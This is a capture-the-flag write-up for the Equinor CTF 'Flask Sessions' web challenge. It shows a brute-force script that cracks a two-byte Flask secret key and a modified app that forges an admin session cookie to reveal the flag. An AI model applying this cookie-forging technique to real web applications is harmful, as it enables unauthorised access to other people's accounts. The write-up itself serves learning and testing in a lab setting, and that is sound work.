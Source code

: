 # Web/Flask Sessions

> Author: [@hagronnestad](https://github.com/hagronnestad)
> 
> This writeup is also available as a webpage here: [https://heinandre.no/ctf-equinor-22/web-flask-sessions/](https://heinandre.no/ctf-equinor-22/web-flask-sessions/)

![](00.png)

The website looks like this:

![](01.png)

I tried to register as `admin`:

> Forbidden
> 
> You don't have the permission to access the requested resource. It is either read-protected or not readable by the server.

That makes sense. Let's try to register as `test`:

![](02.png)

Ok! So we're logged in, but the flag is hidden. We can see that a Cookie was created; `session`. It seems `base64`-encoded. Let's have a closer look:

```bash
$ echo -n "eyJuYW1lIjoidGVzdCJ9.Y2ZV5w.OKZKlhXL6Ctl2jMtEET6jO5IGxI" | base64 -d
{"name":"test"}base64: invalid input
```

First I thought this was a proper `JWT`, but malformed or used incorrectly in some way, but after going down that rabbit hole for a while, I finaly looked at the supplied app code... 🤦🏻‍♂️

Looking at the app (`app.py`) we can see the follwing:

```python
def generate_random_key():
    key = randbytes(1)
    key += choice(ascii_lowercase).encode("ascii")
    return key

flag = open("flag.txt", "r").read()
app = Flask(__name__)
seed(flag)
app.secret_key = generate_random_key()
```

`generate_random_key` creates a two byte key where the second byte doesn't even use the full `0-255` range. This should be crackable with some simple brute forcing.

After doing some research on `Flask` and `Flask-sessions` I found some code to verify a session token here: https://github.com/Paradoxis/Flask-Unsign/blob/master/flask_unsign/session.py

The code is part of the [Flask-Unsign](https://github.com/Paradoxis/Flask-Unsign) package. Which I might have been able to use directly, but ended up copying the relevant code for some reason...

Anyway, the following method is useful to us, because this let's us verify our secret while brute forcing:

```python
def verify(value: str, secret: str, legacy: bool=False, salt: str=DEFAULT_SALT) -> bool:
    """
    Verifies if a given value matches the signed signature
    :param value: Session cookie string to verify
    :param secret: Secret key
    :param salt: Salt (default: 'cookie-session')
    :param legacy: Should the legacy timestamp generator be used?
    :return: True if the secret key is valid
    """
    if not isinstance(secret, (bytes, str)):
        raise FlaskUnsignException(
            f"Secret must be a string-type (bytes, str) and received "
            f"{type(secret).__name__!r}. To fix this, either add quotes to the "
            f"secret {secret!r} or use the --no-literal-eval argument.")

    try:
        get_serializer(secret, legacy, salt).loads(value)
    except BadSignature:
        return False

    return True
```

I put together a `solve.py` script:

```python
# ...abbreviated

for x in range(0, 256): # the random byte
  for y in range(97, 123): # a-z (ascii_lowercase)

    key = bytearray()
    key.append(x)
    key.append(y)

    res = verify("eyJuYW1lIjoidGVzdCJ9.Y2ZV5w.OKZKlhXL6Ctl2jMtEET6jO5IGxI", bytes(key))

    if (res == True):
        print(key)
        print(f"Found! {key}")
        exit()
```

Let's try it:

```bash
$ python3 solve.py 
bytearray(b'\x13x')
Found! bytearray(b'\x13x')
```

Nice! We found the key; `\x13` and `x`.

I just used a modified version of `app.py` to create a valid session token for the `admin`-user:

From `app_modified.py`:
```python
#...abbreviated

# Set app.secret_key to the bruteforced key found with `solve.py`:
app.secret_key = b"\x13x"

#...abbreviated

# Clear the session on every page load and set `name` to `admin`
session.clear()
session['name'] = "admin"
# End
```

We run it:

```bash
$ python3 app.py 
 * Serving Flask app 'app' (lazy loading)
```

Navigate to the app:

![](03.png)

We can see our session cookie; `eyJuYW1lIjoiYWRtaW4ifQ.Y2ZRHQ.IjkUOwQRMayBCjAG71cwrRWg6FY`.

We paste the cookie into the real web page and reload:

![](04.png)

We are `admin` and we have the `flag`!

## Flag
```
EPT{flask-sessions-with-weak-key-is-no-goodie}
```
